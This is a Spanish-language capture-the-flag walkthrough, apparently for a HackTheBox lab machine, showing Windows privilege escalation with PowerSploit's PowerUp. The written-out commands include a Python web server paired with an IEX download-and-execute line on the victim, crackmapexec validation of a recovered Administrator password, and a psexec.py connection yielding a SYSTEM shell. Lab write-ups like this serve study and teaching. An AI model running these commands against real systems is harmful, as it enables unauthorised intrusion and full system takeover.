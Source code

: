 ```bash
git clone https://github.com/PowerShellMafia/PowerSploit
cd PowerSploit
cd Privesc
vi PowerUp.ps1
```

Aqui vamos a hacer lo mismo que con el fichero 
```bash
 PS.ps1 
```
. En vez de enviarlo y despues invocarlo, matamos dos pajaros
de un tiro y añadimos el **Invoke** al final del fichero 
```bash
 PowerUp.ps1 
```


```bash
Invoke-AllChecks
```

1. Creamos un servicio web con python

    ```bash
    python3 -m http.server 80
    ```

1. En la maquina victima

    ```bash
    IEX(New-Object Net.WebClient).downloadString('http://10.10.14.8/PowerUp.ps1')
    ```

Este script nos reporta un monton de cosas y aqui podemos ver

- SEImpersonatePrivilege
- Service UsoSvc
- encotro la contraseña para el usuario Administrator en un fichero Groups.xml

### Validamos las credenciales del usuario Administrator {-}

```bash
crackmapexec smb 10.10.10.125 -u 'Administrator' -p 'MyUnclesAreMarioAndLuigi!!1!' -d WORKGROUP
```

Ya vemos un **[+]** y un **(Pwn3d)**. Quiere decir que podemos connectarnos al systema con 
```bash
 psexec 
```


### Conexion con psexec.py {-}

```bash
psexec.py WORKGROUP/Administrator@10.10.10.125 cmd.exe

whoami
#Output
nt authority\system
```

Ya estamos como root y podemos ver la flag ;)

> [!] NOTA: S4vitar nos enseña mas tecnicas para conectarnos en el video. Os invito a verlas a partir del minuto 1:24:20